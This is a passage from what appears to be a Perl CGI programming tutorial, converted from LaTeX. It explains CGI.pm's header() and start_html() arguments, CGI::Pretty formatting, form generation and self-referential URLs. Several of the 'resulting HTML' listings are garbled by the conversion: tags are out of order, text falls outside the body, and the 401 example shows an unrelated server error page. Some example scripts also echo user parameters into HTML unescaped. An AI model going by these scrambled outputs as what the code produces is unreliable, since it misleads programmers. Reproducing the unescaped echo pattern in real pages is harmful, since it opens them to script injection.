\noindent my \$cgi=new CGI::Pretty;

\noindent 

\noindent 

\noindent print \$cgi-$>$header(),

\noindent \$cgi-$>$start\_html("Environment Dumper"),

\noindent \$cgi-$>$table(\{-border=$>$1\},

\noindent \$cgi-$>$Tr(\$cgi-$>$th(["Parameter","Value"])),

\noindent map \{

\noindent \$cgi-$>$Tr(\$cgi-$>$td([\$\_,\$ENV\{\$\_\}]))

\noindent \} sort keys \%ENV

\noindent ),

\noindent \$cgi-$>$end\_html();

\noindent 

\noindent \textit{How It Works}

\noindent In this version, we've replaced all the HTML with method calls to CGI.pm. We have also used header() to generate a header for us and start\_html() to generate an HTML document header (complete with $<$HEAD$>$ and $<$TITLE$>$ elements). Finally, end\_html() rounds things off for us.

\noindent 

\noindent We can use :standard to import CGI.pm's methods into our script as functions that we can call directly. As the following example shows (at least for HTML generation), dropping all the (\$cgi-$>$) notation can tidy up our code significantly:

\noindent 

\noindent print header(), start\_html("Environment Dumper"),

\noindent table(\{-border=$>$1\}, Tr(th(["Parameter","Value"])), map \{

\noindent Tr(td([\$\_,\$ENV\{\$\_\}]))

\noindent \} sort keys \%ENV

), end\_html();

\noindent 

\noindent \textit{Generating the HTTP Header}

\noindent The header() method  is far  more  powerful  than  what  we've  seen  above  would  suggest.  With no arguments,  it generates a normal  HTTP  response  and  a  content-type  header  of  text/html.  However,

\noindent we can give it many  different  arguments  to  produce  more  complex  headers.  The simplest  form is  to

\noindent just pass in one parameter,  which  CGI.pm will  assume  to  be  a  content  type,  and produce  the relevant header:

\noindent 

\noindent \$cgi-$>$header('image/gif');

\noindent 

\noindent We can also send back a different HTTP response by supplying a second parameter. This can be anything we like, but should probably start with a legal and understood HTTP response code. For example, we can create our own authorization-required response:

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#401response.plx

\noindent use warnings;

\noindent use strict;

\noindent use CGI;

\noindent 

\noindent my \$cgi=new CGI;

\noindent print \$cgi-$>$header('text/html','401 Authorization Required');

\noindent 

\noindent 

\noindent \textit{Note that this should work for new web servers but may not work at all with older web server}

\noindent \textit{software. See the -nph argument below for a discussion.}

\noindent 

\noindent In this case, we have to say text/html explicitly, as we only get that for free when we pass in no arguments at all. header() also accepts named arguments, which allow us to do all of the above and more. These named arguments are:

\noindent 

\noindent \textbf{ARGUMENT DESCRIPTION}

\noindent 

\noindent -type The content type, as above.

\noindent 

\noindent -status The response code and message, as above.

\noindent 

\noindent -expires Sets an expiry time. This takes the form of a sign, a number, and a period letter. For example +10m means in ten minutes time. We can

\noindent also use s for seconds, h for hours, d for days, M for months, and y for

\noindent years. If the expiry time is negative (for example, -1d) or the special keyword "now", the document expires immediately and is not cached.

\noindent 

\noindent The expiry date can also be an explicit date string, for example, "Sat,

\noindent 15Apr2000 16:21:20 GMT".

\noindent 

\noindent -cookie A cookie to be set in the browser and used in subsequent requests.

\noindent -nph Some (mostly older) web servers need to be told that a CGI script is setting all the headers itself, otherwise they will override them before sending the

\noindent response to the client. This is especially true of the HTTP response, if we are creating our own. In these cases we can tell the server we are sending Non- Parsed Headers (NPH) by using the -nph argument.

\noindent Some older web servers (for example, Apache prior to version 1.3) also need a content type of httpd/send-as-is for the server to notice and not override the response.

\noindent -$<$header$>$ Creates an arbitrary header with the same name (without the preceding minus).

\noindent 

\noindent All these arguments are defined by a hyphenated name followed by a value. The one- and two-

\noindent parameter versions omit the names, because they're special cases that handle the most common uses of the header method. For all other cases, CGI.pm requires hyphen-prefixed names for the arguments. If we wanted to add an authorization name header to our 401response.plx example above, we can do

\noindent so by using -authname. But because this is an additional argument, we also have to explicitly name the

\noindent content type and status arguments:

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#401namedresponse.plx

\noindent use strict;

\noindent use warnings;

\noindent use CGI;

\noindent my \$cgi=new CGI;

\noindent 

\noindent print \$cgi-$>$header(-type=$>$'text/html',

\noindent -status=$>$'401 Authorization Required',

\noindent -authname=$>$'Quo Vadis');

\noindent 

\noindent 

\noindent This is an example defining an arbitrary header. Now, -authname is not a standard name, so it is

\noindent interpreted as the name of a header to add to the output. Our resulting HTML looks like this:

\noindent 

\noindent 

\noindent $<$html$>$$<$head$>$$<$title$>$Error 401.5$<$/title$>$

\noindent 

\noindent $<$meta name="robots" content="noindex"$>$

\noindent $<$META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=iso-8859-1"$>$$<$/head$>$

\noindent 

\noindent $<$body$>$

\noindent 

\noindent $<$h2$>$HTTP Error 401$<$/h2$>$

\noindent 

\noindent $<$p$>$$<$strong$>$401.5 Unauthorized: Authorization failed by ISAPI/CGI app$<$/strong$>$$<$/p$>$

\noindent 

\noindent $<$p$>$This error indicates that the address on the Web server you attempted to use has an ISAPI or CGI program installed that verifies user credentials before

\noindent proceeding. The authentication used to connect to the server was denied access by this program.$<$/p$>$

\noindent 

\noindent $<$p$>$Please make a note of the entire address you were trying to access and then contact the Web server's administrator to verify that you have permission to access the requested resource.$<$/p$>$

\noindent 

\noindent $<$/body$>$$<$/html$>$

\noindent 

\noindent \textit{Generating the Document Header}

\noindent CGI.pm's start\_html() method is also more powerful than a first glance would suggest. It lets us create all the parts of the HTML header (anything inside the $<$HEAD$>$...$<$/HEAD$>$ tags), plus the leading $<$BODY$>$ tag. The simplest way to use it is to just pass in a title (though even this is optional):

\noindent 

\noindent \$cgi-$>$start\_html("This is the Document Title");

\noindent 

\noindent We can also use named arguments to set a number of other header elements, such as metatags or a stylesheet for the document. Like header(), if we use any of these, we also need to set the title with a named -title argument; we only get to omit this for the single argument version of the call.

\noindent 

\noindent The complete list of built-in named arguments is:

\noindent 

\noindent 

\noindent \textbf{ARGUMENTS DESCRIPTION}

\noindent 

\noindent -title The title of the document, as above.

\noindent 

\noindent -author The document author (a $<$LINK REV=MADE ...$>$ tag).

\noindent 

\noindent -base If true, sets a $<$BASE$>$ tag with the current document base URL (the base of the URL that triggered the CGI script).

\noindent 

\noindent -xbase Supply an alternative (possibly remote) base URL. Note that this overrides -base.

\noindent 

\noindent 

\noindent \textbf{ARGUMENTS DESCRIPTION}

\noindent 

\noindent -target The target frame for the document.

\noindent 

\noindent -meta A hash reference pointing to a list of meta tag names (content pairs).

\noindent 

\noindent -style A hash reference pointing to stylesheet attributes for the document (a

\noindent $<$LINK REL="stylesheet" ...$>$ tag).

\noindent 

\noindent -head Create an arbitrary element or elements in the header. Pass it either a string or a reference to an array of strings.

\noindent 

\noindent -$<$attr$>$ Create an arbitrary attribute for the $<$BODY$>$ tag (without the preceding minus sign).

\noindent 

\noindent As a more complete example, the following defines a title, author, base, and target for a document, plus

\noindent a few metatags and a stylesheet:

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#starthtml.plx

\noindent use warnings;

\noindent use CGI qw(Link myheadertag);

\noindent use strict;

\noindent 

\noindent my \$cgi=new CGI;

\noindent 

\noindent print \$cgi-$>$header();

\noindent print \$cgi-$>$start\_html(

\noindent -title =$>$ 'A complex HTML document header',

\noindent -author=$>$ 'sam.gamgee@hobbiton.org',

\noindent -xbase =$>$ 'http://www.theshire.net',

\noindent -target =$>$ '\_map\_panel',

\noindent -meta =$>$ \{

\noindent keywords =$>$ 'CGI header HTML',

\noindent description =$>$ 'How to make a big header',

\noindent message =$>$ 'Hello World!'

\noindent \},

\noindent -style =$>$ \{

\noindent src =$>$ '/style/fourthage.css'

\noindent \},

\noindent -head =$>$ [

\noindent Link(\{-rel=$>$'origin',

\noindent -href=$>$'http://hobbiton.org/samg'\}),

\noindent myheadertag(\{-myattr=$>$'myvalue'\}),

\noindent ]

\noindent );

\noindent print \$cgi-$>$end\_html();

\noindent 

\noindent This generates the following document header:

\noindent 

\noindent $<$!DOCTYPE HTML PUBLIC "//IETF//DTD HTML//EN"$>$

\noindent $<$HTML$>$$<$HEAD$>$$<$TITLE$>$A complex document header$<$/TITLE$>$

\noindent $<$LINK REV=MADE HREF="mailto:sam.gangee\%40hobbiton.org"$>$

\noindent $<$BASE HREF="http://www.theshire.net" TARGET="\_map\_panel"$>$

\noindent $<$META NAME="keywords" CONTENT="CGI header HTML"$>$

\noindent 

\noindent 

\noindent $<$META NAME="description" CONTENT="How to make a big header"$>$

\noindent $<$META NAME="message" CONTENT="Hello World!"$>$

\noindent $<$LINK REL="origin" HREF="http://hobbiton.org/samg"$>$

\noindent $<$MYHEADERTAG MYATTR="myvalue"$>$

\noindent $<$LINK REL="stylesheet" TYPE="text/css" HREF="/style/fourthage.css"$>$

\noindent $<$/HEAD$>$$<$BODY$>$

\noindent 

\noindent Any unrecognized arguments are added to the $<$BODY$>$ tag. For example:

\noindent 

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#starthtml\_body.plx

\noindent use warnings;

\noindent use CGI::Pretty;

\noindent use strict;

\noindent 

\noindent my \$cgi=new CGI;

\noindent 

\noindent print \$cgi-$>$header();

\noindent print \$cgi-$>$start\_html(

\noindent -title=$>$'A Red Background',

\noindent -bgcolor=$>$'red'

\noindent );

\noindent print \$cgi-$>$h1("This page is red");

\noindent print \$cgi-$>$end\_html();

\noindent 

\noindent This generates a bgcolor attribute for the body tag, making the page background red:

\noindent 

\noindent $<$!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML//EN"$>$

\noindent $<$HTML$>$$<$HEAD$>$$<$TITLE$>$A Red Background$<$/TITLE$>$

\noindent $<$/HEAD$>$$<$BODY BGCOLOR="red"$>$$<$H1$>$ This page is red

\noindent $<$/H1$>$

\noindent 
\includegraphics[bb=0mm 0mm 208mm 296mm, width=88.0mm, height=53.6mm, viewport=3mm 4mm 205mm 292mm]{image19.ps}$<$/BODY$>$$<$/HTML$>$

\noindent 

\noindent Of course, it's still up to us to end the document with a call to \$cgi-$>$end\_html (and presumably to add some content, too). This is what you should see on your screen:

\noindent 

\noindent 

\noindent \textit{Producing Human-Readable HTML}

\noindent We've already seen that we can produce more legible HTML by using the CGI::Pretty module in place of the standard CGI module. CGI::Pretty comes as a standard extra with modern versions of the CGI.pm module andreplaces the standard HTML output methods provided by CGI.pm with ones that indent the HTML produced onto separate lines:

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#pretty.plx

\noindent use warnings;

\noindent use strict;

\noindent use CGI::Pretty qw(:standard);

\noindent 

\noindent my \$cgi=new CGI::Pretty;

\noindent print header,

\noindent start\_html("Pretty HTML Demo"),

\noindent ol(li(["First","Second","Third"])),

\noindent end\_html;

\noindent 

\noindent This produces the HTML:

\noindent 

\noindent $<$!DOCTYPE HTML PUBLIC "//IETF//DTD HTML//EN"$>$

\noindent $<$HTML$>$$<$HEAD$>$$<$TITLE$>$Pretty HTML Demo$<$/TITLE$>$

\noindent $<$/HEAD$>$$<$BODY$>$

\noindent $<$OL$>$

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent $<$/OL$>$

\noindent $<$LI$>$

\noindent 

\noindent $<$/LI$>$

\noindent $<$LI$>$

\noindent 

\noindent $<$/LI$>$

\noindent $<$LI$>$

\noindent 

\noindent $<$/LI$>$

\noindent 

\noindent First

\noindent 

\noindent 

\noindent Second

\noindent 

\noindent 

\noindent Third

\noindent $<$/BODY$>$$<$/HTML$>$

\noindent 

\noindent We can control how CGI::Pretty lays out the HTML by modifying the variables:

\noindent 

\noindent ? \$CGI::Pretty::INDENT

\noindent 

\noindent ? \$CGI::Pretty::LINEBREAK

\noindent 

\noindent ? @CGI::Pretty::AS\_IS

\noindent 

\noindent For example, to change the indent to two spaces instead of a tab character and double-space the lines, we could set:

\noindent 

\noindent \$CGI::Pretty::INDENT="  ";

\noindent \$CGI::Pretty::LINEBREAK="\textbackslash n\textbackslash n";

\noindent 

\noindent By  default,  CGI::Pretty leaves  $<$A$>$ and  $<$PRE$>$ tags  alone,  because  reformatting  these  can affect the output.  We can add  more  tags  to  make  elements  such  as  lists  and tables  less  verbose. For example,  we can add the $<$LI$>$ tag to make our lists more compact by pushing onto the

\noindent @CGI::Pretty::AS\_IS array:

\noindent 

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#pretty\_asis.plx

\noindent use warnings;

\noindent use strict;

\noindent use CGI::Pretty qw(:standard);

\noindent 

\noindent \$CGI::Pretty::INDENT="  ";

\noindent push @CGI::Pretty::AS\_IS,"LI";

\noindent 

\noindent my \$cgi=new CGI::Pretty;

\noindent print header,

\noindent start\_html("Pretty HTML Demo"),

\noindent ol(li(["First","Second","Third"])),

\noindent end\_html;

\noindent 

\noindent The output of the script above after this modification would now be:

\noindent 

\noindent $<$!DOCTYPE HTML PUBLIC "//IETF//DTD HTML//EN"$>$

\noindent $<$HTML$>$$<$HEAD$>$$<$TITLE$>$Pretty HTML Demo$<$/TITLE$>$

\noindent $<$/HEAD$>$$<$BODY$>$

\noindent $<$OL$>$

\noindent $<$LI$>$First$<$/LI$>$

\noindent $<$LI$>$Second$<$/LI$>$

\noindent $<$LI$>$Third$<$/LI$>$

\noindent $<$/OL$>$

\noindent $<$/BODY$>$$<$/HTML$>$

\noindent 

\noindent Other obvious targets for exclusion  are  the  bold,  italic,  font,  and  table  item  tags.  We  could  achieve that with:

\noindent 

\noindent push @CGI::Pretty::AS\_IS,"LI","B","I","FONT","TD";

\noindent 

\noindent or for those who  prefer the qw// function:

\noindent 

\noindent push @CGI::Pretty::AS\_IS,qw(LI B I FONT TD);

\noindent 

\noindent \textit{Generating HTML Forms}

\noindent CGI.pm's HTML generation also extends to forms, which use the same syntax as other HTML tags.

\noindent CGI.pm is clever about forms and automatically adds default values to the fields if they were supplied

\noindent as CGI parameters.

\noindent 

\noindent We could generate the HTML  form  that  calls  askform.plx from  within  askform.plx with this code:

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#genform.plx

\noindent use CGI::Pretty qw(:all);

\noindent use strict;

\noindent 

\noindent print header();

\noindent print generate\_form();

\noindent print end\_html();

\noindent 

\noindent 

\noindent sub generate\_form \{

\noindent return start\_form,

\noindent h1("Please enter your name:"),

\noindent p("Last name", textfield('last')),

\noindent p("First name", textfield('first')),

\noindent p(submit),

\noindent end\_form;

\noindent \}

\noindent 

\noindent This subroutine generates the following HTML form when run using CGI::Pretty:

\noindent 

\noindent $<$FORM METHOD="POST" ENCTYPE="application/xwwwformurlencoded"$>$

\noindent $<$H1$>$

\noindent 

\noindent $<$/H1$>$

\noindent $<$P$>$

\noindent 

\noindent $<$/P$>$

\noindent $<$P$>$

\noindent 

\noindent $<$/P$>$

\noindent $<$P$>$

\noindent 

\noindent $<$/P$>$

\noindent $<$/FORM$>$

\noindent Please enter your name:

\noindent 

\noindent 

\noindent First name $<$INPUT TYPE="text" NAME="first" $>$

\noindent 

\noindent 

\noindent Last name $<$INPUT TYPE="text" NAME="last" $>$

\noindent 

\noindent 

\noindent $<$INPUT TYPE="submit" NAME=".submit"$>$

\noindent 

\noindent We  could  then  have  the  form  filled  in  automatically,  simply  by  calling  it  with  a  suitable  URL,

\noindent for example:

\noindent 

\noindent http://www.myserver.com/cgi-bin/askname.cgi?first=John\&last=Smith

\noindent 

\noindent This will work, even if the CGI script is normally called from an HTML form using the POST method. However, don't be tempted to mix query strings and posted parameters -- CGI.pm doesn't allow parameters to be specified both in both, the posted parameters will always take precedence.

\noindent 

\noindent Generating Self-Referential URLs

\noindent 

\noindent A self-referential URL is one that points back at us. A good example is the action of an HTML form that we generate inside the script. CGI.pm provides two methods to enable scripts to refer to themselves without having to explicitly code their own names.

\noindent 

\noindent The first is the url() method, which returns the URL that was used to access the script without any query information attached. If we were generating forms by hand, we could use it to create the form action like this:

\noindent 

\noindent print "$<$FORM METHOD=GET ACTION=".\$cgi-$>$url()."$>$";

\noindent 

\noindent This method doesn't include any parameters received in the query string, which is probably correct in this case, since we would expect the form to supply them. If we want to generate a URL that does include the query string, we can use the second method: self\_url(). This takes the current CGI parameters and builds a query string from them, so we can change the URL by altering, adding or

\noindent deleting CGI parameters before we call self\_url(). This can be very useful for passing different sets

\noindent of parameters to the same CGI script:

\noindent 

\noindent 

\noindent foreach ('feedback','webmaster','press') \{

\noindent \$cgi-param('to',\$\_);

\noindent print "$<$P$>$$<$A HREF=",\$cgi-$>$self\_url(),"$>$",ucfirst(\$\_),"$<$/A$>$";

\noindent \}

\noindent 

\noindent This would generate HTML similar to the following:

\noindent 

\noindent 

\noindent $<$P$>$$<$A HREF=http://davidme/perl/mail.plx?to=feedback$>$Feedback$<$/A$>$

\noindent $<$P$>$$<$A HREF=http://davidme/perl/mail.plx?to=webmaster$>$Webmaster$<$/A$>$

\noindent $<$P$>$$<$A HREF=http://davidme/perl/mail.plx?to=press$>$Press$<$/A$>$

\noindent 

\noindent The url() method takes several optional parameters, which can be used to generate different kinds of

\noindent URL according to our needs. Each of these is a Boolean value, which we can switch on or off by passing

\noindent in a True value (like 1) or a False value (0). If, by default, url() has generated an absolute URL

\noindent (such as path/script), then we can use the -full parameter, as shown below, to generate the entire

\noindent URL, like this:

\noindent 

\noindent 

\noindent \$cgi-$>$url(-full=$>$1); \#full URL, e.g. 'http://domainname/path/script'

\noindent 

\noindent We can make a URL either absolute or full by passing in a variable for the Boolean value:

\noindent 

\noindent my \$full\_url=\$cgi-$>$param('generate\_full\_urls');

\noindent \$cgi-$>$url(-full=$>$\$full\_url);

\noindent 

\noindent Note that this gets the hostname from the server, not the HTTP Host: header, which may cause a problem with certain kinds of virtual hosting on servers that host multiple websites. As a result, there are some circumstances in which this may not generate a URL pointing back to us.

\noindent 

\noindent Alternatively, to generate a relative URL from the current page we can use -relative:

\noindent 

\noindent 

\noindent \$cgi-$>$url(-relative=$>$1); \#relative URL, e.g. 'script'

\noindent 

\noindent For the sake of completeness we can also explicitly request an absolute URL with -absolute:

\noindent 

\noindent 

\noindent \$cgi-$>$url(-absolute=$>$1); \#absolute filename

\noindent 

\noindent Parts of the original URL might have been split off and placed into the PATH\_INFO or

\noindent QUERY\_STRING environment variables. We can put these parts back by adding a -path or -query:

\noindent 

\noindent \$cgi-$>$url(-path=$>$1); \#add the path information (PATH\_INFO)

\noindent \$cgi-$>$url(-query=$>$1); \#add the query string

\noindent 

\noindent This last example is actually equivalent to the self\_url() method, so in general we'd rarely (if ever)

\noindent want to specify -query explicitly unless we want to control the presence of the query string in code:

\noindent 

\noindent 

\noindent \$cgi-$>$url(-query=$>$\$cgi-$>$param('addquery')); \#add query string conditionally

\noindent 

\noindent 

\noindent Using the Same Script to Generate and Process Forms

\noindent 

\noindent Taking all of the above together, we can write a script that either processes a form or generates it if there's insufficient data to proceed. If both are present, it prints a simple welcome message:

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#askname1.plx

\noindent use warnings;

\noindent use CGI::Pretty qw(:all);

\noindent use strict;

\noindent 

\noindent print header();

\noindent if (param('first') and param('last')) \{

\noindent my \$first=ucfirst(lc(param('first')));

\noindent my \$last=ucfirst(lc(param('last')));

\noindent print start\_html("Welcome"),h1("Hello, \$first \$last");

\noindent \} else \{

\noindent print start\_html(title=$>$"Enter your name");

\noindent if (param('first') or param('last')) \{

\noindent print center(font(\{color=$>$'red'\},"You must enter a",

\noindent (param('last')?"first":"last"),"name"));

\noindent \}

\noindent print generate\_form();

\noindent \}

\noindent print end\_html();

\noindent 

\noindent sub generate\_form \{

\noindent return start\_form,

\noindent h1("Please enter your name:"),

\noindent p("Last name", textfield('last')),

\noindent p("First name", textfield('first')),

\noindent p(submit),

\noindent end\_form;

\noindent \}

\noindent 

\noindent For programmers who prefer CGI.pm's object-oriented syntax, this can be rewritten to use object

\noindent methods for all state-related functions like param. Since the HTML functions don't have anything to do with the state of the script, it's usually more legible to keep them as functions. Here's one way to write

\noindent CGI scripts with CGI.pm, using a mixture of methods and functions:

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#askname2.plx use warnings;

\noindent use CGI::Pretty qw(:all);

\noindent use strict;

\noindent 

\noindent my \$cgi=new CGI;

\noindent 

\noindent print header();

\noindent if (\$cgi-$>$param('first') and \$cgi-$>$param('last')) \{

\noindent my \$first=ucfirst(lc(\$cgi-$>$param('first')));

\noindent my \$last=ucfirst(lc(\$cgi-$>$param('last')));

\noindent print start\_html("Welcome"),h1("Hello, \$first \$last");

\noindent \} else \{

\noindent print start\_html(-title=$>$"Enter your name");

\noindent if (\$cgi-$>$param('first') or \$cgi-$>$param('last')) \{

\noindent print center(font(\{-color=$>$'red'\},"You must enter a",

\noindent (\$cgi-$>$param('last')?"first":"last"),"name"));

\noindent \}

\noindent 

\noindent 

\noindent print generate\_form();

\noindent \}

\noindent print end\_html();

\noindent 

\noindent sub generate\_form \{

\noindent return start\_form,

\noindent h1("Please enter your name:"), p("First name", textfield('first')), p("Last name", textfield('last')), p(submit),

\noindent end\_form;

\noindent \}

\noindent 

